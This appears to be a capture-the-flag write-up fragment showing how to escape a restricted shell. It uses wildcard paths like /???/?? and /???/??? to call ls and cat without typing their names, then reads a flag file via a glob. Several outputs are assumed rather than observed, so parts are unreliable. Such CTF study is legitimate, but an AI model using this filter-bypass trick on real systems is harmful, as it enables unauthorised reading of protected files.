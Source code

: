 # Step 2 & 3: Find ls and list files
Broken@Shell$ LS_CMD=/???/??
Broken@Shell$ $LS_CMD "$?"
# Output: ls: cannot access '0': No such file or directory
# (This confirms LS_CMD=/bin/ls is correct)

Broken@Shell$ $LS_CMD
# Output might show list of files, e.g.:
# flag_some_name_here.txt
# other_file

# Let's assume the flag file is 'flag.txt' (8 characters)
# FLAG_GLOB=????????

# Step 4: Find cat
Broken@Shell$ CAT_CMD=/???/???
Broken@Shell$ $CAT_CMD "$?"
# Output: cat: 0: No such file or directory
# (This confirms CAT_CMD=/bin/cat is correct)

# Step 5: Read the flag
Broken@Shell$ $CAT_CMD ????????
# This should print the flag.
